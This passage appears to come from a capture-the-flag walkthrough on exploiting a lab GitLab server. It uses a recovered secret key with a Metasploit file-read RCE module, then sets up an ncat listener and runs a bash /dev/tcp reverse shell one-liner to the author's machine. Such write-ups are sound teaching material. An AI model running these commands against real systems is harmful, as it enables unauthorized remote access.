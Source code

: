 Now that we have the secret key, we could try RCE next. But to do this manually, we would need to install `ruby on rails` and that might conflict with `metasploit` that is also written in `ruby`, so I spun up `metasploit` and found this exact exploit.
>**NOTE: We could've used docker to create a GitLab instance so it won't conflict with metasploit and create our serialized object to gain RCE via the cookie. This didn't occur to me when solving this box.**

```
use exploit/multi/http/gitlab_file_read_rce
```

Let's set the correct options for this exploit.
Since we know the `secret_key` already, we can just set the `secret_key` and skip the whole file read vulnerability.If you want to run this exploit with the file read vulnerability, just empty out the secret key.

We should get a callback from the machine and spawn us a shell on metasploit.

![metasploit](./img/metasploit.png)

Since we can't upgrade to a full tty session from a metasploit shell, I'm going to run another reverse shell to callback to my machine so I can upgrade this shell to a full tty session.

Let's setup a listener on our local box. ( You might need to use `nc` instead of `ncat`)
```
ncat -lnvp 9001
```

Run this bash reverse shell one-liner on the reverse shell from metasploit.
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.5/9001 0>&1'
``` 
> Replace `10.10.16.5` and `9001` to your own IP address and desired port number
